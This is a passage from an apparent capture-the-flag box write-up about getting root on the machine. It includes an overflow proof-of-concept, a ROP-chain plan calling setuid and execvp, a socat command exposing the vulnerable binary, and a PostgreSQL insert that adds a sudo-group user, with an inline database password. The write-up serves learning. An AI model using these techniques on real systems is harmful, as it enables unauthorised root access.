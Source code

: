 So the new poc looks like this:

```
run -i <<<$(python -c 'print "show"+"A"*30+"B"*8+"\n127.0.0.1\n"')
```

Since aslr and nx are active we decide to use a rop chain to get code execution. Using [ropper](https://scoding.de/ropper/) `ropper --file iptctl` we find some interesting gadgets:

```
...
0x0000000000000de3: pop rdi; ret;
0x0000000000000de1: pop rsi; pop r15; ret;
...
```

These are especially interesting because the binary is x64 and arguments to functions are given via registers rdi and rsi. Since the binary is not position independent (no PIE) it will be loaded to a static address every time it is executed – aslr is only affecting libraries loaded. A very valuable target for jumping around in the binary is the procedure linkage table (plt), which is basically a jump table that is required for dynamic linking. Every entry is a jump referencing an address in got.plt, a table of offsets, where the linker enters addresses of dynamic resolved functions on their first use.

The most interesting functions we can jump to are:

```
execvp = 0x400760
setuid = 0x400780
```

The plan for exploiting the binary is now to create a rop chain that calls setuid with the argument 0, followed by a call to execvp with the argument "/bin/sh" to get a shell. The problem that remains is that we do not have any "/bin/sh" string in the binary. We can not use the ones from libc because with aslr we don’t know its address. We find however that we have a string in the binary called "fflush", which is just perfect as it ends in "sh", followed by a null byte!

With all these steps we can finally write the full [exploit](https://gist.github.com/xct/c5e7a4daad34af690bdbb42b3f6b2941), leading to a shell on our attacker box.

To finally root the box we cant just run the exploit script on the target because it probably won’t have pwntools on it. What we can do though is using socat to make the binary available via network and exploit it remotely. In order to do this we have to whitelist our ip address in the web application on the "Firewall" menu and run the following command:

```
socat TCP-LISTEN:1701,reuseaddr,fork EXEC:"/opt/iptctl/iptctl -i" &
```

Then we run the exploit and become root.

The other (easy) method to obtain root, is to create a user in the sudoers group via the postgresql database. This works because the "passwd\_table" is mapped to the users of the system and the sudoers file allows everyone with gid 27 to become root (`%sudo ALL=(ALL:ALL) ALL`).

```
psql -U unixusrmgr -h 127.0.0.1 -d unix //dheu%7wjx8B&
insert into passwd_table (username, passwd, gid, homedir) values ('gold', '$1$D0BywwXu$afgdHC5cWNw1bdlyls6TH.', 27, '/home/gold');
```

Logging in as "gold" and issuing `sudo -i` lets us become root and read the flag.

Many thanks to [ompamo](https://twitter.com/ompamo) for this amazing box!